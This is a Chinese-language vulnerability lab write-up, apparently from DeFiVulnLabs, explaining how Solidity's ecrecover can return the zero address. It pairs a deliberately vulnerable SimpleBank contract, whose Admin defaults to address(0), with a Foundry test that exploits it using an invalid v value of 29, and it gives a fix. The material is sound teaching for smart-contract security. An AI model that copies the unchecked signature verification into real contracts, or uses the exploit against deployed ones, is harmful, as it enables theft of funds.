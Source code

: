[ecrecover.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ecrecover.sol)

# ecRecover 返回(0)地址

**名称：** ecrecover 返回(0)地址

**说明：** 在 SimpleBank 合约中，转账函数将消息哈希和签名（v、r、s 值）作为输入。 它恢复签名者地址并检查它是否等于 Admin。 该漏洞在于，当签名参数无效时，ecrecover函数可能会返回0x0地址，如果v值不是27或28，则会返回(0)地址。

**解决措施：**

验证 ecrecover 的结果不为 0，或者使用 OpenZeppelin 的 ECDSA 库。

**参考：**

https://twitter.com/1nf0s3cpt/status/1674268926761668608

https://github.com/code-423n4/2021-09-swivel-findings/issues/61

https://github.com/Kaiziron/numen_ctf_2023_writeup/blob/main/wallet.md

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    mapping(address => uint256) private balances;
    address Admin; //default is address(0)

    function getBalance(address _account) public view returns (uint256) {
        return balances[_account];
    }

    function recoverSignerAddress(
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) private pure returns (address) {
        address recoveredAddress = ecrecover(_hash, _v, _r, _s);
        return recoveredAddress;
    }

    function transfer(
        address _to,
        uint256 _amount,
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public {
        require(_to != address(0), "Invalid recipient address");

        address signer = recoverSignerAddress(_hash, _v, _r, _s);
        console.log("signer", signer);
        //解决办法
        //请求函数(signer != address(0), "Invalid signature");
        require(signer == Admin, "Invalid signature");

        balances[_to] += _amount;
    }
}
```

***\*测试方法:\****

forge test--contracts src/test/***\*ecrecover.sol\**** -vvvv

```jsx
// 测试 ecRecover 漏洞的函数
    function testecRecover() public {
        // 在利用之前发出包含当前合约余额的日志
        emit log_named_decimal_uint(
            "Before exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );

        // 生成消息哈希
        bytes32 _hash = keccak256(
            abi.encodePacked("\\x19Ethereum Signed Message:\\n32")
        );

        // 使用 vm.sign 函数对生成的哈希进行签名。 这里，1代表账户索引
         // 返回的变量r和s是ECDSA签名（椭圆曲线数字签名算法）的一部分
        (, bytes32 r, bytes32 s) = vm.sign(1, _hash);

        // 将 v 变量设置为 29
         // 通常在以太坊中，v 是 27 或 28。当 v 既不是 27 也不是 28 时，
         // 用于签名验证的ecrecover函数将返回address(0)
        uint8 v = 29;

        // 使用不正确的 v 值调用 SimpleBankContract 的传输函数
         // 如果 SimpleBankContract 没有正确验证签名的 v 值，
         // 这可能会导致未经授权的传输
        SimpleBankContract.transfer(address(this), 1 ether, _hash, v, r, s);

        // 漏洞利用后发出包含当前合约余额的日志
        emit log_named_decimal_uint(
            "After exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );
    }
```

**红色框：返回零地址。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe8189c2a-67a9-4ddc-8a03-be3b2bdcce6a%2FUntitled.png?table=block&id=5f54d930-33e2-4f0a-87d5-98ce4bcb4a11&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)